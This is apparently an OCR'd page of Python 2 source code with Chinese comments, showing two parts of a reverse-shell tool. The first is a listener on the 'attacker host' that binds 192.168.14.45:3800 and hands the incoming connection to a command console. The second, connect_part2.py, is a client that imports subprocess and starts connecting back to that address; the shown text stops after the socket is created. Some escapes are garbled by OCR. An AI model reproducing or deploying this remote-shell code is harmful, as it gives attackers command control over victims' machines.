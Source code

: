 ```
        result += data

    return  result.rstrip("n")

# 主控制函数
def main_control():
    try:
        #host = sys.argv[1]      # 攻击者主机地址
        #port = int(sys.argv[2]) # 攻击者主机端口

        host = "192.168.14.45"
        port = 3800


    except Exception as e:
        print script_colors("red","[-]") + "Socket Information Not Provided"
        sys.exit(1)

    print script_colors("g"," [+]") + script_colors("b"," Framework Standard Successfully")
    print banner()

    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM) # 安装套接字
    s.bind((host,port))
    s.listen(5)

    if host == "":
        host = "localhost"

    print script_colors("g", " [info] ") + script_colors("b", "Listening on %s%d ..." % (host, port))

    try:
        conn,addr = s.accept()
    except KeyboardInterrupt:
        print "nn " + script_colors("red", "[-]") + script_colors("b", " User Request An Interrupt")
        sys.exit(0)

    console(conn,str(addr[0]))

    s.close() # 关闭套接字

if __name__ == "__main__":
    main_control()
```

**connect_part2.py**

```
# -*- coding: utf-8 -*-
import socket,subprocess as sp,sys,os,platform

# 连接函数
def connect():
    try:
        # host  = str(sys.argv[1])
        # port  = int(sys.argv[2])

        host = "192.168.14.45"   # 测试IP
        port = 3800               # 测试端口
    except Exception as e:
        sys.exit(1)

    conn = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
```